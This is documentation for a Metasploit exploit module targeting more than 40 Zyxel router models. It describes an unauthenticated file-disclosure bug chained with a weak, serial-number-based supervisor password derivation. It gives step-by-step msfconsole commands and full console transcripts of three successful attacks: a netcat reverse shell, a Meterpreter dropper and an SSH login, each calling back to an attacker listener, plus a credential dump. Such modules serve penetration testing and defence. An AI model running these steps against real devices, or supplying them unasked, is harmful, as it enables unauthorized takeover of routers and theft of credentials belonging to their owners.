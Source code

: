 ## Vulnerable Application

This module exploits multiple vulnerabilities in the `zhttpd` binary (/bin/zhttpd) and `zcmd` binary (/bin/zcmd).
It is present on more than 40 Zyxel routers and CPE devices.
The remote code execution vulnerability can be exploited by chaining the local file disclosure (LFI) vulnerability
in the `zhttpd` binary that allows an unauthenticated attacker to read the entire configuration of the router
via the vulnerable endpoint `/Export_Log?/data/zcfg_config.json`.

With this information disclosure, the attacker can determine if the router is reachable via `ssh` and use
the second vulnerability in the `zcmd` binary to derive the `supervisor` password by exploiting a weak password
derivation algorithm using the device serial number.

After exploitation, an attacker will be able to execute any command as user `supervisor`.

For more info, read this article: [Zyxel router chained RCE using LFI and Weak Password Derivation Algorithm (No CVE)](https://attackerkb.com/topics/dkw2Y2zdyN/zyxel-router-chained-rce-using-lfi-and-weak-password-derivation-algorithm-no-cve) on [attackerkb.com](url).

Installing a vulnerable test bed requires a vulnerable Zyxel router.
This module has been tested against a vulnerable Zyxel router with the specifications listed below:

* Zyxel router VMG3625-T20A
* Firmware: V5.30(ABQC.3)C0

## Verification Steps

1. Start `msfconsole`
1. `use exploit/linux/http/zyxel_lfi_unauth_ssh_rce`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0=unix command, 1=Linux dropper, 2=Interactive SSH>`
1. `exploit`
1. You should be able to get a session based on the target setting.


## Options
Option `STORE_CRED` can be set to store the derived credentials (supervisor) in the database of Metasploit.
Default setting is `true`.

### Advanced options
Option `SSH_DEBUG` can be set to enable SSH debugging output (Extreme verbosity!). Default is `false`.
Option `SSH_TIMEOUT` can be used to specify the maximum time to negotiate a SSH session. Default is 30 seconds.
Option `ConnectTimeout` where you can specify the maximum number of seconds to establish a TCP connection. Default is 10 seconds.

## Scenarios

### Zyxel router VMG3625-T20A - Netcat reverse shell
```
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > options

Module options (exploit/linux/http/zyxel_lfi_unauth_ssh_rce):

   Name        Current Setting         Required  Description
   ----        ---------------         --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.1.1             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasp
                                                 loit/basics/using-metasploit.html
   RPORT       8080                    yes       The target port (TCP)
   SSL         false                   no        Negotiate SSL/TLS for outgoing connections
   SSLCert                             no        Path to a custom SSL certificate (default is randomly generated)
   STORE_CRED  false                   no        Store credentials into the database.
   URIPATH                             no        The URI to use for this exploit (default is random)
   VHOST                               no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on th
                                       e local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > set target 0
target => 0
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABQC.3)C0 Serial:S000Y00000000
[+] The target is vulnerable.
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABQC.3)C0 Serial:S000Y00000000
[*] SSH service is available and SSH Port 22 is open. Continue to login.
[*] Derived supervisor password using SerialNumMethod2: 2dc1a078
[*] Derived supervisor password using SerialNumMethod3: 58Pxnwdefr
[*] Authentication with derived supervisor password using Method3 is successful.
[*] Executing Unix Command for cmd/unix/reverse_netcat
[*] Command shell session 1 opened (192.168.1.2:4444 -> 192.168.1.1:51236) at 2023-04-18 19:57:49 +0000

uname -a
Linux VMG3625-T20A 2.6.36 #7 SMP Mon Aug 27 19:59:01 CET 2018 mips GNU/Linux
id
uid=12(supervisor) gid=12 groups=12
exit

[*] 192.168.1.1 - Command shell session 1 closed.
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce)
```

### Zyxel router VMG3625-T20A - Linux Dropper Meterpreter session
```
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > set target 1
target => 1
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABQC.3)C0 Serial:S000Y00000000
[+] The target is vulnerable.
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABQC.3)C0 Serial:S000Y00000000
[*] SSH service is available and SSH Port 22 is open. Continue to login.
[*] Derived supervisor password using SerialNumMethod2: 2dc1a078
[*] Derived supervisor password using SerialNumMethod3: 58Pxnwdefr
[*] Authentication with derived supervisor password using Method3 is successful.
[*] Executing Linux Dropper for linux/mipsbe/meterpreter/reverse_tcp
[*] Command Stager progress -  42.72% done (499/1168 bytes)
[*] Command Stager progress -  85.36% done (997/1168 bytes)
[*] Sending stage (1299256 bytes) to 127.0.0.1
[*] Command Stager progress - 100.00% done (1168/1168 bytes)
[*] Meterpreter session 2 opened (192.168.1.2:4444 -> 192.168.1.1:40364) at 2023-04-18 20:00:59 +0000

meterpreter > getuid
Server username: supervisor
meterpreter > sysinfo
Computer     : 192.168.1.1
OS           :  (Linux 2.6.36)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.1 - Meterpreter session 2 closed.  Reason: User
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce)
```

### Zyxel router VMG3625-T20A - Interactive SSH session and storing the credentials of user supervisor
```
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > set target 2
target => 2
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > set STORE_CRED true
STORE_CRED => true
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABQC.3)C0 Serial:S000Y00000000
[+] The target is vulnerable.
[*] Hardware:VMG3625-T20A Firmware:V5.30(ABQC.3)C0 Serial:S000Y00000000
[*] SSH service is available and SSH Port 22 is open. Continue to login.
[*] Derived supervisor password using SerialNumMethod2: 2dc1a078
[*] Derived supervisor password using SerialNumMethod3: 58Pxnwdefr
[*] Authentication with derived supervisor password using Method3 is successful.
[*] Credentials for user:supervisor are added to the database...
[*] SSH session 3 opened (192.168.1.2:34493 -> 192.168.1.1:22) at 2023-04-18 20:07:36 +0000

uname -a
Linux VMG3625-T20A 2.6.36 #7 SMP Mon Aug 27 20:08:48 CET 2018 mips GNU/Linux
id
uid=12(supervisor) gid=12 groups=12
exit

[*] 192.168.1.1 - SSH session 3 closed.  Reason: User exit
msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > creds -u supervisor
Credentials
===========

host           origin         service          public      private   realm  private_type  JtR Format
----           ------         -------          ------      -------   -----  ------------  ----------
192.168.1.1    192.168.1.1    8080/tcp (http)  supervisor  58Pxnwdefr       Password

msf6 exploit(linux/http/zyxel_lfi_unauth_ssh_rce) > 
```

## Limitations
No limitations identified.

